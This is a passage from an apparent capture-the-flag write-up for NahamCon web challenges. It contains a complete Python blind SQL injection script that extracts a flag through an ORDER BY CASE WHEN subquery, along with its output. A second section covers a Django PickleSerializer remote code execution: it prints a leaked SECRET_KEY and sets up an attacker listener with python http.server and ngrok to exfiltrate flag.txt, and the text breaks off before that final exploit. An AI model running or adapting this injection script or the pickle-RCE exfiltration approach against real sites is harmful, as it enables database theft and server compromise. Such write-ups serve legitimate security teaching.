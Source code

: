 ```
```python
 import string
    from bs4 import BeautifulSoup
    import requests
    url = "http://challenge.nahamcon.com:31631/"
    data = {'search': '',
            'order': "(CASE WHEN (SELECT (SUBSTR(flag, 1, 1)) from flag ) = 'f' THEN name ELSE atomic_number END)--"}
    x = requests.post(url, data=data)
    # x1 = BeautifulSoup(x.text, features='lxml').td.contents[0]
    # print(x1)
    s = 'flag{' + string.ascii_lowercase + '_' + '}'
    # print(s, type(s))
    flag = ''
    for i in range(1, 100):
        h1 = len(flag)
        for k in s:
            if len(flag) > h1:
                continue
            data = {'search': '',
                    'order': f"(CASE WHEN (SELECT (SUBSTR(flag, {i}, 1)) from flag ) = '{k}' THEN name ELSE atomic_number END)--"}
            # print(f'checking {data.values()}')
            x = requests.post(url, data=data)
            if BeautifulSoup(x.text, features='lxml').td.contents[0] == '89':
                flag += k
        print(flag)
        if flag[-1] == '}':
            break
```

```
flag{order_by_blind}
```

### Poller:

_Have your say! Poller is the place where all the important infosec questions are asked._

there is a github link in cource code: https://github.com/congon4tor/poller 

from looking at commit we know this is vulnerable to django PickleSerializer RCE and we also 
found secret_key in previous commits there is also one fake key 

SECRET_KEY = `77m6p#v&(wk_s2+n5na-bqe!m)^zu)9typ#0c&@qd%8o6!`

we can get the revese shell here but i don't have vps so we go the easy way we know the file name is flag.txt
first i created local server with python : `python -m http.server 80`

and expose it to internet with ngrok : `ngrok http 80`

now we craft our payload in a way that it will read file content and make a request 
to our server with that file content in GET request here is final exploit in python :
